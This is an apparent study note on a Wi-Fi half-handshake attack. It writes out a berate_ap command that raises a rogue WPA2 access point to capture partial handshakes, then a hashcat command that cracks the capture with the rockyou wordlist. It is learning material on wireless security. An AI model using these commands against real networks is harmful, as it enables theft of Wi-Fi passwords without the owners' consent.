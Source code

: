 # Half Handshake Attack

```bash
./berate_ap -m bridge wlan0 eth0 -w 2 --mana-wpa --colour fakeAP testpass

# m -> method for internet sharing (Nat, bridge)
# > make wlan0 take internet from eth0
# w -> refer to the enctyption is WPA2
```

![image.png](<../../../.gitbook/assets/image (30).png>)

> **Half handshake was stored in file call `hostapd.hccapx` in `/tmp` directory**

***

then crack hash

```bash
hashcat -m 2500 /tmp/ **hostapd.hccapx /tmp/rockyou.txt**
```

<figure><img src="../../../.gitbook/assets/image 1 (16).png" alt=""><figcaption></figcaption></figure>

![2025-06-17 00\_13\_47-Capture Wi-Fi Passwords with a Half-Handshake Attack \_ Mahara-Tech - Brave.png](<../../../.gitbook/assets/2025 06 17_00_13_47 Capture_Wi Fi_Passwords_with_a_Half Handshake_Attack___Mahara Tech_ _Brave.png>)

**Try to search how to run `hashcat` on GPU not on CPU**
